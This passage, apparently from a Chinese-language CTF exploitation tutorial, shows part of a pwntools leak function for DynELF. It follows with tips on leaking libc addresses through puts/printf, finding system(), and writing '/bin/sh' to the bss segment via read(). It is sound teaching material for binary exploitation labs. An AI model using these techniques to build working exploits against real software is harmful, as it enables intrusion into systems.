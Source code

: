 ```python
        else:
            leak_content+=c #拼接输出
            up=c #保存最后一个字符

    leak_addr=leak_content[:4] #截取输出的一段作为返回值，提供给DynELF处理
    #leak_addr=p.recv()[5:].ljust(8,'\x00')
    #leak_addr=p.recv()[5:]
    log.info("%#x => %s" % (addr, (leak_addr or '').encode('hex')))
    return leak_addr
```

## 利用要点
和之前提到过的write函数不同，由于puts和printf的特性，我们需要对leak脚本进行处理，这样DynELF才会正常的执行，使用中需要注意的一点是，这种leak需要反复利用漏洞点，而在反复的函数跳转过程中，可能会使栈空间不稳定，这时，我们可以跳转到 __libc_start_main 中，重新布置栈空间。

<font style="color:#F5222D;">另外请注意，send和sendline千万不能混用，否则可能会给自身带来麻烦（如：栈无法对齐），这时请gdb.attach进行debug，来排除错误。</font>

> 本题就出现了错误，会另开一篇文章说
>

# 总结
虽然可以通过调用DynELF：**system_addr = d.lookup('system', 'libc')**来得到libc.so中system()在内存中的地址。要注意的是，**<font style="color:#F5222D;">通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串“/bin/sh”在内存中的地址</font>**。所以我们在payload中需要调用read()将“/bin/sh”这字符串写入到程序的空闲段（例如bss段，要求可读可写）中。

